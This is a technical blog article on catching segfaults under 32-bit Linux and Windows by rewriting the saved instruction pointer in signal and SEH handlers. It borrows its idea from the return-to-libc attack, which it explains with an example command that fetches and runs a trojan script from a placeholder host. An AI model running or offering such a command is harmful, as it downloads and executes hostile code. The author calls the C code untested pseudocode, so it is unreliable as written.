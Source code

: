 Cleanly recovering from Segfaults under Windows and Linux (32-bit, x86)
## two brief- three. three brief notes.

First. Windows calls 'em access violations, Linux calls 'em segfaults. I'm a linux person, so I'll
go with segfaults. They're the same thing though.

Second. My code may look like C, but since it's ported from a decidedly not-C language and
I didn't actually test it to see if it compiles, you should treat it like pseudocode.
_Caveat lector_. (look ma I'm classy)

Third, a warning. For me, in almost every case of segfaults, they arise due to a null pointer dereference.
These are basically harmless. However, the remaining cases tend to be _really really destructive_
things like buffer overflows, that can end up corrupting memory basically at random.
**When you attempt to recover from segfaults, you are playing with fire**. That said, moving on ..

.. Fourth! Despite the fact that this method will result in a valid stackframe chain, it creates a 
call instruction where none exists in the original executable. Compilers that don't emit unwind information
for functions that "can't" throw (which, I am told, includes C++ at least under Linux) may experience, at best,
scope destructors not being called and/or variable corruption and at worst, **outright crashes**. For this reason,
it is recommended to only use this method for error logging on such languages. (thanks Maristic @reddit) Lobby
your compiler writers to add a flag to treat any pointer dereference as a potential throw site!

## the problem

Segfault crashes are annoying. Most exceptions can be caught, but segfaults are the archetypal
instant/total crash. Ways of handling them tend to rely on system-specific methods and have their
own idiosyncracies. In this article I'm gonna outline how to recover from segfaults under Linux
(probably at least some other POSIX systems as well) as well as Windows (32-bit each). Interestingly,
the approach is quite similar, and should generalize to 64-bit systems with minor prodding assuming
you're familiar with the 64-bit version of cdecl.

## the basic idea

Both Windows and Linux let you define handler functions that are executed when a segfault occurs.
In theory we could throw an exception right from the handler, but this is **highly iffy**
because the operating system treats "the state of being in a handler function" as special.
We can't return from the handler function either, because that'll just bring us back to the
crash site. Instead, we need to take a page out of the Black Hat Book.

## return-to-libc

Almost all exploits are concerned primarily with getting the target computer to execute arbitrary
code. Buffer overflows let you overwrite variables, but they usually don't let you change _code_,
because assembler code does not live on the stack. There's a trick to bypass this, though,
and it's called the return-to-libc attack.

Basically, it would be enough if we could call one C library function with arbitrary arguments.
For instance, the function could be system() and the argument could be
`wget http://crackedserver.cc/trojan.sh && sh -c trojan.sh`. But we can't change code, so
we cannot insert a call instruction, even with a buffer overflow.

We can, however, reuse a call instruction that's already there.

Did you know that the "ret" instruction works like a jump that takes its address from the stack?

The way function calls work is, the "call" instruction pushes the next instruction address
after the "call" onto the stack (in most cases, the same stack as used for static buffers
, although some rare architectures have dedicated instruction stacks [and thus
are immune to this attack]), then executes a jump to the target function. Symmetrically,
the "ret"[urn] instruction simply pops an address from the stack and jumps to it.

Knowing this, our attack is simple: use a buffer overflow to overwrite the return address of the
current function with `&system`, and provide the appropriate arguments for it. This is made easier
by the fact that for historical reasons, most stacks grow _downwards_, as opposed to static buffers
on the stack, which naturally grow upwards.

We are going to make use of a similar approach.

## applying this to segfault recovery

We want the segfault handler to execute arbitrary code without being limited to what the OS
deems "safe" for handlers. For that, we need to execute a jump to the address of our userspace
(non-handler, though of course the handler is not run in kernel space)
handler function. But we can't rewrite the callsite.

We _can_ rewrite the stack. And we have one "ret" instruction available.

On both Windows and Linux, the segfault handler function is passed a "context struct", which
includes the state of the registers at the failure site. Ostensibly, this is so people can
repair the problem that caused the segfault (it also lets you do nifty things like userspace
segment handling). However, what we're going to do is to set up an imitation of the effects
of a call instruction on the stack (`push ip`), then rewrite the instruction pointer in that struct
and let the operating system's return to user code do the work for us - instead of returning to the
failing code, it's going to return to a handler function.

Enough talk. Bring the code!

## the code

### linux

    #include "signal.h"
    void seghandle_userspace() {
      // note: because we set up a proper stackframe,
      // unwinding is safe from here.
      // also, by the time this function runs, the
      // operating system is "done" with the signal.
      
      // choose language-appropriate throw instruction
      // raise new MemoryAccessError "Segmentation Fault";
      // throw new MemoryAccessException;
      // longjmp(erroneous_exit);
      // asm { int 3; }
      *(int*) NULL = 0;
    }
    enum X86Registers {
      GS, FS, ES, DS, EDI, ESI, EBP, ESP, EBX, EDX, ECX, EAX,
      TRAPNO, ERR, EIP, CS, EFL, UESP, SS
    }
    void seghandle(int sig, void* si, void* unused) {
      ucontext_t* uc = (ucontext_t*) unused;
      // No. I refuse to use triple-pointers.
      // Just pretend ref a = v; is V* ap = &v;
      // and then substitute a with (*ap).
      ref gregs = uc->uc_mcontext.gregs;
      ref eip = (void*) gregs[X86Registers.EIP],
      ref esp = (void**) gregs[X86Registers.ESP];
      
      // imitate the effects of "call seghandle_userspace"
      esp --; // decrement stackpointer.
              // remember: stack grows down!
      *esp = eip;
      
      // set up OS for call via return, like in the attack
      eip = (void*) &seghandle_userspace;
    }
    void setup_segfault_handler() {
      struct sigaction sa;
      sa.flags = SA_SIGINFO;
      sigemptyset (&sa.mask);
      sa.sigaction = &seghandle;
      if (sigaction(SIGSEGV, &sa, NULL) == -1) {
        fprintf(stderr, "failed to setup SIGSEGV handler\n");
        exit(1);
      }
    }

So on SIGSEGV, `seghandle` is called (as a signal handler), rewrites the signal's instruction address
to `seghandle_userspace`, then returns to the OS, which in returning to user code jumps to
`seghandle_userspace`, which then throws an exception or does whatever else it likes.

### windows

Under Windows, this is slightly more involved. (Of course it is. Have you seen the size of a
typical winapi function as compared to POSIX?)

What surprised me though, was how similar the approach is under Windows. The Linux approach can almost
be copied 1:1.

Big credit goes to Matt Pietrek and the highly valuable [crash course on the Depths of Win32™
SEH](http://www.microsoft.com/msj/0197/exception/exception.aspx).

Basically, Windows uses SEH (Structured Exception Handling) to cope with critical errors.
You've seen SEH before - the default SEH handler is the "This application has stopped working"
pop-up.
SEH handlers are tracked with a linked list stored in `FS[0]`. This is
the one part where you may need some assembler, or use your compiler's built-in primitives
(`_try`/`_except`) where provided. I'm going to assume that `_try`/`_except` is not available.

Okay. When a SEH error happens under Windows, the operating system grabs the list of handlers
from `FS[0]`, then queries them in order to see if any of them will handle the error. Handlers
have the choice to say "keep looking", "return to user code" or "invoke exception handler".

A useful note: if we pass over an exception and let the operating system handle it, it will call
our handler again with EH_UNWINDING set. Since the other parameters will be unchanged,
and the function probably won't try to suddenly handle an exception it just passed over,
this mostly need not concern us.

The code!

      #include "winbase.h"
      #include "windows.h"
      #include "excpt.h"
      void seghandle_userspace() {
        // see above re. what to do now
        *(int*) NULL = 0;
      }
      EXCEPTION_DISPOSITION seghandle
      (_EXCEPTION_RECORD* record, void* establisher_frame,
       _CONTEXT* context, void* dispatcher_context
      ) {
        // see above
        ref
          esp = (void**)context.Esp,
          eip = (void* )context.Eip;
        // imitate the effects of "call seghandle_userspace"
        // stack grows down under windows, too
        esp --;
        *esp = eip;
        // rewrite eip for return-to-lib, same as linux
        eip = (void*) &seghandle_userspace;
        // and back to user code.
        return ExceptionContinueExecution;
      }
      void setup_segfault_handler() {
        _EXCEPTION_REGISTRATION reg;
        // Note: this bit will require assembly.
        // Consult your compiler vendor documentation.
        reg.prev = FS[0];
        reg.handler = &seghandle;
        FS[0] = &reg;
        // note: do this on exit
        // fs[0] = ((_EXCEPTION_REGISTRATION) fs[0]).prev;
      }
